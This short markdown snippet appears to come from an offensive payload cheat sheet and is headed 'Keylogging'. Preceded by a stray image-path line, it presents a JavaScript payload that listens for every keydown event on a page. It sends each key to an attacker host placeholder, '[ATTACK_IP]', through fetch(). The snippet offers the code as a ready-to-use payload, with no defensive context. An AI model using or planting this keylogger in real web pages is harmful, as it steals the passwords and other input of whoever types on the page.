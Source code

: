 # Keylogging

### Capture Keystrokes

##### Payload
```
function logKey(event){
        fetch("http://[ATTACK_IP]/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);
```

